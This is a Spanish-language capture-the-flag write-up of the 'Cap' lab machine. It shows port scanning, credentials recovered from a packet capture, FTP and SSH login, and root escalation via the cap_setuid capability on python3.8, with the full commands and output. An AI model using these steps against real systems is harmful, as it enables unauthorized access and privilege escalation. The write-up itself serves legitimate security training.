 ## Cap 

## Escaneo de puertos
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.245                   
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.245
```

## Revisamos la pag web

Se puede ver que cuando intentamos acceder al recurso `http://10.10.10.245/data/0` obtenemos un fichero que se puede analizar con la herramienta `Wireshark`

Encontramos los siguientes datos relevantes:
![alt text](Imagenes/Cap.png)
```
User:nathan
Passwd:Buck3tH4TF0RM3!
```

## Acceso ftp:
Probamos esas credenciales en el servicio `ftp` y accedemos al servicio 
con el comando `get user.txt` obtenemos la primera flag.

```shell
ftp nathan@10.10.10.245
```

```shell
ftp> ls
229 Entering Extended Passive Mode (|||11864|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 22 10:28 user.txt
226 Directory send OK.
ftp> get user.txt
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh nathan@10.10.10.245
```

## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:
```shell
sudo -l
```
Sin embargo no obtenemos nada.
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap
```
Comprobamos los ficheros que tenemos para explotar los permisos de SUID.
```shell
find / -perm -4000 -user root 2>/dev/null | xargs ls -l
```
```shell
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2066/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2066/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2066/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2066/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2074/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2074/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2074/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2074/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root            111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root            111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root             85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root             53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root             39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root             88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root             55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root             44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root             68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root             31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root             67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root            166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root             39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-- 1 root messagebus       51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root             14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root            473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root            130152 Feb  2  2021 /usr/lib/snapd/snap-confine
```

No aparece nada intersante...

Por último comprobamos las `capabilities` con el siguiente comando:

```shell
getcap -r / 2>/dev/null
```

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El más intersante es la de `python3.8` que cambiando la capability `cap_setuid` podemos ser root para ellos lo comprobamos con el siguiente comando:

```shell
python3.8 -c 'import os;os.setuid(0);os.system("whoami")'
```
y vemos como nos devuelve `root` 

Por lo tanto vamos a cambiar esta capability

```shell
python3.8 -c 'import os;os.setuid(0);os.system("bash")'
```

Obtenemos una shell de bash con los máximos privilegios y podemos acceder a `root.txt` 